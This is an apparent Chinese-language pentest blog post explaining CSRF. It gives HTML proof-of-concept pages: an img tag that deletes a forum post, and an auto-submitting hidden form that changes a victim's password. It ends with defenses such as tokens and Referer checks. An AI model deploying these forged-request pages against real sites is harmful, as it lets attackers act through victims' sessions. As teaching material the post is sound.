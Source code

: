 +++
date = "2016-06-28T09:21:34+08:00"
description = ""
draft = false
tags = ["csrf"]
title = "CSRF"
topics = ["Pentest","CSRF"]

+++

### 0x00 概念
> &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;当你登陆某个网站时，通常浏览器与网站都会形成一个会话，在会话没有结束时你可以执行发表文章、发邮件、
删除文章等操作，若会话结束，你再操作的话会提示你会话已经结束，请重新登陆。  
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;CSRF就是：攻击者通过一些技术手段欺骗用户的<font color="FF0000">浏览器</font>去<font color="FF0000">访问</font>一个自己曾<font color="FF0000">认证过</font>的网站并<font color="FF0000">执行某些操作</font>。也可以说CSRF就是黑客利用受害者的Cookie骗取服务器的信任从而执行某些操作

### 0x01 利用
* 利用条件
    * 攻击者可以得知url的所有参数项并了解其含义
    * 诱导用户访问构造好的POC

* 利用地方
    * 操作是有意义的(比如:修改密码等)
    * 验证过于简单(参数固定、我们可以设置参数)

### 0x02 GET型CSRF攻击
> ```
若有论坛www.aa.com，论坛删除文章的操作是请求类似
http://www.aa.com/opt.php?id=135&act=del&name=Tom的链接
```
> ```
有用户A，他登陆了论坛，且有篇文章id为251，那么他的浏览器此时已经取得了论坛的信任
```
> ```
此时有hacker用户B，他构造了一个html为b.html，b.html内容如下：
<html>
<head>
    <title>test</title>
</head>
<body>
    <img src="http://www.aa.com/opt.php?id=251&act=del&name=A" />
</body>
</html>
将b.html放在他自己搭建的网站上，网址为http://www.bb.com/b.html
```
```
恶意用户B将链接http://www.bb.com/b.html通过qq发送给用户A，
诱使他访问，用户A一旦访问，他id为251的文章就会被删除
```

### 0x03 POST型CSRF攻击
> 若网站www.xx.com有让用户修改密码的功能，但验证过于简单，形如下图：
{{% fluid_img src="/img/post/csrf_post.png" alt="csrf_post利用.png" %}}
```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>aa</title>
</head>
<body>
    <form action="http://172.23.10.200/index.php/User/Index/RegisterUpdate/id/286" method="post">
        昵称：<input type="text" name="password" id="password" class="form-control" value="xxxxx">
        用户名：<input type="text" name="password" id="password" class="form-control" value="xiaoming">
        密码：<input type="password" name="password" id="password" class="form-control" value="">
        确认密码：<input type="password" name="cpassword" id="conpassword" class="form-control" value="">
        <input type="submit" name="button" value="提交">
    </form>
</body>
</html>
```
此时我们就可以构造自动提交表单的xxxx.html，内容如下：
```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>test</title>
</head>
<body>
    <form action="http://172.23.10.200/index.php/User/Index/RegisterUpdate/id/286" method="post" name="test">
           <input type="hidden" name="password" id="password" value="666666">
           <input type="hidden" name="cpassword" id="conpassword" value="666666">
    </form>
    <script type="text/javascript">
        widow.onload= function(){ //这里的window故意少了一个n，不然就自动提交了
            document.test.submit();
        }
    </script>
</body>
</html>
```
然后将连接http://www.bb.com/xxxx.html 发送给用户,诱使他点击链接,一旦他点击,则密码就会被修改

### 0x04 防御：
* 对于修改密码的表单可以要求输入原密码  
* 二次确认(如删除用户、转账等重要操作弹窗要求用户确认)
* Token认证  
    * GET操作请求：可以在Cookie中存储Token  
    * POST操作请求：可以在form表单中添加一个隐藏的input标签，value值为Token
* 验证Referer